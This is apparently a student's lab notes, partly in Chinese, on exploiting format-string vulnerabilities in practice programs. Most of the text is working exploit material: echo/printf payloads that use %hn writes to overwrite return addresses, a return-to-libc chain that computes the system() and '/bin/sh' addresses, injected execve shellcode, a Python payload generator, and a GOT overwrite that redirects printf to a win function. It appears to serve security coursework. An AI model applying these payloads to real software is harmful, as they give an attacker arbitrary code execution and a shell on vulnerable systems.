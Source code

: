 ![image-20240604170008320](C:\Users\jessica\AppData\Roaming\Typora\typora-user-images\image-20240604170008320.png)

```
echo $(printf "\x16\xf0\xff\xbf@@@@\x14\xf0\xff\xbf")%.8x%.8x%.8x%.8x%.26204x%hn%.4369x%hn > input
```

```
./prog1 < input | grep -a address
```

![image-20240604171039599](C:\Users\jessica\AppData\Roaming\Typora\typora-user-images\image-20240604171039599.png)

```
echo $(printf "\x16\xF0\xFF\xBF@@@@\x14\xF0\xFF\xBF")%.8x%.8x%.8x%.8x%.56961x%hn%.57410x%hn > input

./prog1 < input | grep -a address
```

![image-20240604171331456](C:\Users\jessica\AppData\Roaming\Typora\typora-user-images\image-20240604171331456.png)

![image-20240607185325200](C:\Users\jessica\AppData\Roaming\Typora\typora-user-images\image-20240607185325200.png)

The address of the input array: 0xbfbe8bc4
The value of the frame pointer: 0xbfbe8ba8
The value of the return address(before): 0x080485b9

The value of the return address(after): 0x080485b9

**EBP的地址是0xbfbe8ba8

![image-20240604174550459](C:\Users\jessica\AppData\Roaming\Typora\typora-user-images\image-20240604174550459.png)

![image-20240607185752348](C:\Users\jessica\AppData\Roaming\Typora\typora-user-images\image-20240607185752348.png)

**注意到system()函数偏移为0x0003ad80，字符串“/bin/sh”偏移为0x0015ba3f

![image-20240607185922109](C:\Users\jessica\AppData\Roaming\Typora\typora-user-images\image-20240607185922109.png)

**我们有libc的加载基址      0xb7e0b000 

可以计算system函数地址为 

```
0xb7e0b000+0x0003ad80=0xb7e45d80
```

"/bin/sh"的地址为

```
0xb7e0b000+0x0015ba3f=0xb7f66a3f
```

```
0xb7e4 = 47076
0x5d80 = 23936
0xb7f6 = 47094
0x6a3f = 27199

23936 - 148 = 23788
27199 - 23936 = 3263
47076 - 27199 = 19877
47094 - 47076 = 18

system函数放入返回地址 

/bin/sh放入参数地址
```

- `0xb7da` = 47066
- `0x4da0` = 19872
- `0xb7ec` = 47084
- `0x582b` = 22571

echo $(printf "\xec\xec\xff\xbf@@@@\xf4\xec\xff\xbf@@@@\xee\xec\xff\xbf@@@@\xf6\xec\xff\xbf")%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%19724x%hn%2699x%hn%24495x%hn%18x%hn > badfile

**EBP**的地址: 0xbfbe8ba8

**ret** = 0xbfbe8ba8+ 4 = 0xbfbe8bac

**参数位置** =0xbfbe8ba8 + 12 = 0xbfbe8bb4

```
echo $(printf "\xac\x8b\xbe\xbf@@@@\xb4\x8b\xbe\xbf@@@@\xae\x8b\xbe\xbf@@@@\xb6\x8b\xbe\xbf")%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%23788x%hn%3263x%hn%19877x%hn%18x%hn > badfile


```

echo$(printf"\xae\xee\xff\xbf@@@@\xac\xee\xff\xbf")_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.49003x%hn_%.11500x%hn$(printf"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80\x00") > badfile

```
#!/usr/bin/python3
import sys
N = 200
content = bytearray(0x90 for i in range(N))

# Put the address at the beginning
addr1 =  0xbfffefac
addr2 =  0xbfffefb4
addr3 =  0xbfffefae
addr4 =  0xbfffefb6

content[0:4] = addr1.to_bytes(4, byteorder='little')
content[4:8] = ("dead").encode('latin-1')
content[8:12] = addr2.to_bytes(4, byteorder='little')
content[12:16] = ("beef").encode('latin-1')
content[16:20] = addr3.to_bytes(4, byteorder='little')
content[20:24] = ("cafe").encode('latin-1')
content[24:28] = addr4.to_bytes(4, byteorder='little')
content[28:32] = ("babe").encode('latin-1')

C = 15

# Construct the format string
small1 = 0x5d80-28-C*8
large1 = 0x6a3f-0x5d80
small2 = 0xb7e4-0x6a3f
large2 = 0xb7f6-0xb7e4

s = "%.8x"*C+"%."+str(small1)+"x"+"%hn"+"%."+str(large1)+"x"+"%hn"+"%."+str(small2)+"x"+"%hn"+"%."+str(large2)+"x"+"%hn"

fmt = s.encode('latin-1')
content[28:28+len(fmt)] = fmt

# Write the content to badfile
file = open("input", "wb")
file.write(content)
file.close()

```

```
%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x
```

![image-20240607195639516](C:\Users\jessica\AppData\Roaming\Typora\typora-user-images\image-20240607195639516.png)







![image-20240607200438664](C:\Users\jessica\AppData\Roaming\Typora\typora-user-images\image-20240607200438664.png)

![image-20240607210217429](C:\Users\jessica\AppData\Roaming\Typora\typora-user-images\image-20240607210217429.png)



080483a0 <printf@plt>:
 80483a0:	ff 25 0c a0 04 08    	jmp    *0x0804 a00c
 80483a6:	68 00 00 00 00       	push   $0x0
 80483ab:	e9 e0 ff ff ff       	jmp    8048390 <_init+0x28>



0804 850b <win>:

objdump -d ./prog3|grep win

0804850b <win>:

0804     2052

850b     34059

```
echo $(printf "\x0e\xa0\x04\x08@@@@\x0c\xa0\x04\x08")%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%1920x%hn%32007x%hn> input
```

![image-20240608152450141](C:\Users\jessica\AppData\Roaming\Typora\typora-user-images\image-20240608152450141.png)